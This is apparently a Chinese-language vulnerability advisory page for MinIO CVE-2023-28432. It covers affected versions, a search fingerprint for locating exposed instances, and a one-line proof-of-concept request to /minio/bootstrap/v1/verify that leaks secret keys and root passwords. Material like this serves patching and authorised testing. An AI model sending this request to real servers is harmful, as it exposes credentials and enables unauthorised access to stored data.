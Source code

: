 # MinIO verify 敏感信息泄漏漏洞 CVE-2023-28432

## 漏洞描述

Minio 是一个多云对象存储框架。在从RELEASE.2019-12-17T23-16-33Z开始到RELEASE.2023-03-20T20-16-18Z之前的集群部署中，MinIO存在漏洞发送请求后返回所有环境变量，包括MINIO_SECRET_KEY和MINIO_ROOT_PASSWORD，导致信息泄露。分布式部署的所有用户都会受到影响

## 漏洞影响

<a-checkbox checked>MinIO <= RELEASE.2023-03-20T20-16-18Z</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="minio"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1679976896036-1e230da8-12ab-4e6a-9681-d35b78c573a5.png)

验证POC (默认端口:9000)

```javascript
POST /minio/bootstrap/v1/verify
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1679976986271-1b32d86d-2c4b-47cb-9a33-8c8e91fce7f6.png)